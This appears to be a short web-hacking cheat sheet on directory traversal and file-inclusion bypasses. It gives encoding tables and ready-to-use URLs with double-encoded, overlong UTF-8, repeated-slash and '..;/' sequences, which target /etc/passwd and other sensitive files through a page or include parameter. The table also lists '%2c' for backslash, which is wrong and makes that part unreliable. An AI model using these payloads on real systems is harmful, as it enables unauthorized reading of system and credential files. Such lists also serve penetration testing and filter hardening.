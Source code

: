 |     | URL   | Double URL | UTF-8 Unicode                 | 16 bits Unicode |
|-----|-------|------------|-------------------------------|-----------------|
| `.` | `%2e` | `%252e`    | `%c0%2e` `%e0%40%ae` `%c0%ae` | `%u002e`        |
| `/` | `%2f` | `%252f`    | `%c0%2f` `%e0%80%af` `%c0%af` | `%u2215`        |
| `\` | `%2c` | `%252c`    | `%c0%5c` `%c0%80%5c`          | `%u2216`        |

#### Encoded `../`
```text
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
```
#### Encoded `..\`
```text
%2e%2e%2c
%252e%252e%252c
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2216
```

#### Double URL Encoding

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=%252e%252e%252fetc%252fpasswd
```

#### UTF-8 Encoding

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Bypass Filtering

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=....//....//etc/passwd
http://{{< param "m.RDOMAIN" >}}/index.php?page=..///////..////..//////etc/passwd
http://{{< param "m.RDOMAIN" >}}/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### Bypass `../` removal

```text
..././
...\.\
```

### Bypass `../` replaced with `;`

```text
..;/
http://{{< param "m.RDOMAIN" >}}/page.jsp?include=..;/..;/sensitive.txt
```
